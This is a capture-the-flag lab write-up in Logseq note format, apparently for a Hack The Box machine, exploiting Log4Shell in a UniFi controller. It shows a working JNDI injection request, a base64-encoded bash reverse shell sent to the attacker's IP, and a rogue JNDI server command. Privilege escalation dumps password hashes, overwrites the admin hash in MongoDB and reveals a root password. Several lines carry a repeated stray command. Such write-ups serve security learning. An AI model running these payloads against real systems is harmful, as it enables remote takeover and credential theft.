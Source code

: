 public:: true
tags:: log4j, log4shell, CVE-2021-44228, JNDI

- The target machine exposes an instance of the unifi-controller vulnerable to `CVE-2021-44228` (AKA Log4Shell).
  This vulnerability can be exploited both manually or via metasploit. I did it manually because I only found the metasploit module later.
- The Ubiquiti UniFi Network Application versions 5.13.29 through 6.5.53 are affected by the Log4Shell vulnerability whereby a JNDI string can be sent to the server via the `remember` field of a POST request to the `/api/login` endpoint.
- I followed [this guide](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi) to exploit the vuln
	- First lets test if the payload is triggered
	  logseq.order-list-type:: number
		- From the attacker side we monitor incoming traffic on port `389/tcp`
		  logseq.order-list-type:: number
		  ```bash
		  sudo tcpdump -i tun0 dst port 389
		  ```
		- Then send the payload to the target application
		  logseq.order-list-type:: number
		  ```bash
		  curl -i -s -k -X POST \
		  	-H 'Host: 10.129.96.149:8443' \
		      -H 'Content-Length: 95' \
		      --data-binary '{\"username\":\"a\",\"password\":\"a\",\"remember\":\"${jndi:ldap://10.10.14.147/o=tomcat}\",\"strict\":true}' \
		      'https://10.129.96.149:8443/api/login'
		  ```
		- If everything went right we should see incoming packets in `tcpdump` coming from the target machine
		  logseq.order-list-type:: number
	- We now need to setup a rouge JNDI server to serve a malicious Java object.
	  logseq.order-list-type:: number
	  For this purpose I opted for [this fork](https://github.com/goncalor/rogue-jndi) of [rogue-jndi](https://github.com/veracode-research/rogue-jndi) beacuse it already contains a `Dockerfile`.
		- Prepare the payload
		  logseq.order-list-type:: number
		  ```bash
		  ┌──(crazybyte㉿kali)-[~]
		  └─$ echo 'bash -c bash -i >&/dev/tcp/10.10.14.147/4444 0>&1' | base64
		  YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMTQ3LzQ0NDQgMD4mMQo=
		  ```
		- Start the rouge-jndi server
		  logseq.order-list-type:: number
		  ```bash
		  podman container run --rm -ti -p 389:1389 rogue-jndi:local \
		  	-c "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMTQ3LzQ0NDQgMD4mMQo}|{base64,-d}|{bash,-i}" \
		      -n 10.10.14.147
		  ```
	- **User flag** at `/home/michael/user.txt`
	  logseq.order-list-type:: number
		- 6ced1a6a89e666c0620cdb10262ba127
		  logseq.order-list-type:: number
		  background-color:: green
- ### Privesc
	- Search for user passwords in the application database
	  logseq.order-list-type:: number# mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
	  ```bash
	  > mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
	  "email" : "administrator@unified.htb",
	  administrator:$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.
	  "email" : "michael@unified.htb",
	  michael:$6$spHwHYVF$mF/VQrMNGSau0IP7LjqQMfF5VjZBph6VUf4clW3SULqBjDNQwW.BlIqsafYbLWmKRhfWTiZLjhSP.D/M1h5yJ0
	  "email" : "seamus@unified.htb",
	  Seamus:$6$NT.hcX..$aFei35dMy7Ddn.O.UFybjrAaRR5UfzzChhIeCs0lp1mmXhVHol6feKv4hj8LaGe0dTiyvq1tmA.j9.kfDP.xC.
	  "email" : "warren@unified.htb",
	  warren:$6$DDOzp/8g$VXE2i.FgQSRJvTu.8G4jtxhJ8gm22FuCoQbAhhyLFCMcwX95ybr4dCJR/Otas100PZA9fHWgTpWYzth5KcaCZ.
	  "email" : "james@unfiied.htb",
	  james:$6$ON/tM.23$cp3j11TkOCDVdy/DzOtpEbRC5mqbi1PPUM6N4ao3Bog8rO.ZGqn6Xysm3v0bKtyclltYmYvbXLhNybGyjvAey1
	  ```
	  *Reported only relevant data*
		- I tried to decrypt them via `john` without any luck
		  logseq.order-list-type:: number# mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
	- Lets update the password for the user **administrator** to a known one
	  logseq.order-list-type:: number# mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
		- Database data
		  logseq.order-list-type:: number# mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
		  ```json
		  # administrator record
		  "_id" : ObjectId("61ce278f46e0fb0012d47ee4"),
		  "name" : "administrator",
		  "email" : "administrator@unified.htb",
		  "x_shadow" : "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.",
		  "time_created" : NumberLong(1640900495),
		  "last_site_name" : "default",
		  "ui_settings" : {
		    [...]
		  ```
		- Generate a new dedicated password
		  logseq.order-list-type:: number# mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
		  ```bash
		  ┌──(crazybyte㉿kali)-[~/HTB/StartingPoint/Tier2/Unified]
		  └─$ mkpasswd -m sha-512 password
		  $6$QZMDmveKFddQDsKb$JqIc/LSEt04H3KhcIh.04r3ibToQLTRTFmgBqea9IQKw94V.XtJKQF8EzQo8SaG0lJrN2w1fSJO61vr5N3JaD/
		  ```
		- Update password in mongodb
		  logseq.order-list-type:: number# mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
		  ```bash
		  mongo --port 27117 ace --eval 'db.admin.update( { "name" : "administrator" }, { $set : { "x_shadow" : "$6$QZMDmveKFddQDsKb$JqIc/LSEt04H3KhcIh.04r3ibToQLTRTFmgBqea9IQKw94V.XtJKQF8EzQo8SaG0lJrN2w1fSJO61vr5N3JaD/" } } )'
		  ```
	- Now we can login as **administrator** in the Unifi Controller webUI
	  logseq.order-list-type:: number# mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
		- From there we can head to `Settings -> Site -> Device Authentication -> SSH Authentication` and read the plain-text password used to allow the application to access the root user via SSH
		  logseq.order-list-type:: number# mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
		  #+BEGIN_CAUTION
		  username: root
		  password: NotACrackablePassword4U2022
		  #+END_CAUTION
	- **Root flag** at `/root/root.txt`
	  logseq.order-list-type:: number# mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
		- e50bc93c75b634e4b272d2f771c33681
		  logseq.order-list-type:: number# mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
		  background-color:: green